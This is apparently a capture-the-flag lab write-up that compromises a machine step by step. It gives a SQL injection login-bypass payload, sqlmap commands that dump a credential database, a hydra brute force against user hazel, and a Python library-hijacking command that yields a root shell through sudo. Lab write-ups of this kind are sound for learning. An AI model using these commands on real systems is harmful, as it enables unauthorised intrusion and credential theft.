










Via port scanning I have found two opening ports 
```bash
22 ---> ssh 
8000 ---> http
```
I visited the website. and found a login page. <br/>
 <br/>
First thing first, check for SQL injection vulnerability. Set the payload `test' or 1=1 -- -` And Boom! <br/>
 <br/>
So using sqlmap i find out the  database first. 
```bash
sqlmap -r login.txt --level=5 --risk=3 --dbs --threads=10
```
 <br/>
Then I dump the data of `website` database.
```bash
sqlmap -r login.txt --level=5 --risk=3 -D website --threads=10 --dbms=mysql --dump
```
 <br/>
Using the username and password I logged in via ssh. <br/>
 <br/>
Found another user hazel. <br/>
 <br/>
Using hydra I bruteforce for the password of hazel. And found the password is hazel.  <br/>
 <br/>
Using that password I became the user hazel. <br/>
 <br/>
For privilege to root I found the following interesting thing. <br/>
 <br/>
In `hasher.py` I manipulated the vulnerable hashlib import to became root using the following command.
```bash
# 1st
echo 'import os; os.system("/bin/bash")' > /tmp/hashlib.py
# 2nd
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```
The first command will create a `/tmp/hashlip.py` file that open a `/bin/bash`. And the second line will set the python path to `/tmp` and then run the `hasher.py` as root. Which will open a shell as ROOT! <br/>
 <br/>